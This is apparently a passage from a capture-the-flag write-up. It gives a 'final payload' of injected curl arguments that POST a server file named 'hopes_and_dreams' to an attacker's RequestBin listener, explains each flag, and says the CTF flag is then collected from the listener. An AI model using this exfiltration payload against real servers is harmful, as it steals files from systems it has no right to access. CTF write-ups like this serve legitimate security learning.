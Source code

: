 ![](./assets/requestbin-1.png)
#### ==Final Payload==
```payload.txt
https://requestbin.kanbanbox.com/XXXXXX -o /dev/null -X POST --data-binary @hopes_and_dreams
```
- **`https://requestbin.kanbanbox.com/XXXXXX`**  
    – This is the **destination URL**: your RequestBin listener that logs incoming HTTP requests.
- **`-o /dev/null`**  
    – Tells `curl` to **discard the response body**. We don't care what the server sends back.
- **`-X POST`**  
    – Forces the method to **POST**, which is important for sending data.
- **`--data-binary @hopes_and_dreams`**  
    – This uploads a local file named `hopes_and_dreams` from the server.  
    – The `@` tells `curl` to read the **contents of the file** and send it as the request body.
### ==1.5 Flag==
After we've done submitting the `$payload`, we can just get our flag on the `RequestBin`.
